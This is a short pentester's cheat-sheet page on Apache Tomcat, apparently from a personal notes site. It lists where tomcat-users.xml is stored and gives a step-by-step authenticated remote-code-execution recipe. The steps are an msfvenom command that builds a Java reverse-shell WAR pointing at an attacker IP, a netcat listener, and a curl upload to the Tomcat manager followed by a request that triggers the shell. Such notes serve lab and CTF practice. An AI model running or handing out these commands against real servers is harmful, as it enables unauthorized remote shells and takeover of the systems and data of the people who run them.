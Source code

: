 ```yaml
---
title: "Apache Tomcat"
date: 2024-7-2
tags: ["tomcat", "apache", "web server", "war", "java", "rce"]
---
```


---
### Config Location

<div>

```bash
/usr/share/tomcat9/etc/tomcat-users.xml
```

```bash
/etc/tomcat9/tomcat-users.xml
```

</div>

<br>

---

### RCE (Authenicated)

#### 1. Create a WAR file

<div>

```bash
msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.10 LPORT=1337 -f war -o revshell.war
```

</div>

#### 2. Start a listener

<div>

```bash
rlwrap nc -lvnp 1337
```

</div>

{{< tab set1 tab1 active >}}3a. Manager GUI{{< /tab >}}
{{< tab set1 tab2 >}}3b. Manager Script{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
+--------------------------------------------+
| Exploit                                    |
+--------------------------------------------+
| 1. Login to Tomcat Web Application Manager |
| 2. WAR file to deploy -> Deploy            |
| 3. Click /revshell in Applications table   |
+--------------------------------------------+
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```bash
curl -u '<USERNAME>:<PASSWORD>' http://example.com:8080/manager/text/deploy?path=/revshell --upload-file revshell.war
```

```bash
curl -s http://example.com:8080/revshell
```

</div>

{{< /tabcontent >}}

<br>
